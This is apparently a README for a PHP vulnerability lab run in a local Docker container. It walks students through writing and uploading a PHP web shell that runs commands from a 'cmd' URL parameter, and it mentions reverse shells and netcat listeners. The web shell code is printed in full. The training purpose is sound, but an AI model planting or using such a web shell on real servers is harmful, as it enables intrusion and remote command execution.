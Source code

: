 ## PHP Vuln LAB

### Setup
1. To run the lab, make sure you have docker engine installed. The lab can be started by changing directories `cd LAB` and then you can start the container by running `sudo docker-compose up --build --remove-orphans`. - Note that if you currently use docker, the flag `--remove-orphans` may effect other containers you have. Consider changing the ports used in the configs and run with the basic `docker-compose up --build`.

2. Open your web browser and navigate to `http://localhost:8080/`

### Building the Malware

We want to see whats hiding in the criminals webserver. Why don't we exploit the fact that they are using PHP and write some malware! Maybe we can create a shell and run commands to see what's inside.

1. Create a file called `shell.php`, or whatever name you want to call your malware. (We are writing with php so feel free to obfuscate as you'd like for practice. You'll get brownie points?)

2. We want to be able to execute shell commands from the URL or setup a reverse shell. Refer to Dr. O'learys [Cyber Operations text book](https://www.amazon.com/Cyber-Operations-Building-Defending-Attacking/dp/1484242939) for details on how to setup reverse shells, and/or look into what a netcat listener is. Brownie Points for making a reverse shell, however for this lab we will just be focusing on pumping commands through the URL field in our browser.

- How can we execute shell commands through our browser? We want the server to recognize our GET requests as shell commands with the input `cmd`. Here is an example of how I would build mine:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = ($_GET['cmd']);
    // We want to be able to view the output. Is the following necessary?
    echo "<pre>";
    $output = shell_exec($cmd);
    echo $output;
    echo "</pre>";
    exit; // Exit after executing the command
}
?>
```
3. Upload your fresh and snazzy malware to the upload link and navigate to `http://localhost:8080/uploads/`. Use your intuition from here to see if you can inject some commands and locate the super secret flag!

Example Input:
`http://localhost:8080/uploads/shell.php?cmd=whoami`

